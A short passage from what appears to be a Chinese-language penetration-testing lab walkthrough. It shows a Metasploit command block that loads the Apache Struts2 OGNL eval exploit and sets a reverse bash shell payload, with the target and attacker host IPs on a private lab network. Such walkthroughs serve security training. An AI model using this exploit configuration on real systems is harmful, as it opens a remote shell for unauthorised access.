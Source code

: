 ![](./img/msfdb.png)
(2) 攻击准备
```shell
use /multi/http/struts2_multi_eval_ognl

# 查看 exp 可配置参数列表
show options

# 更改配置

set payload payload/cmd/unix/reverse_bash   #设置payload
set RHOSTS 192.168.162.9  #靶机IP
set RPORT  43091   #靶机目标端口  
set LHOST  192.168.162.12   #攻击者主机IP 

```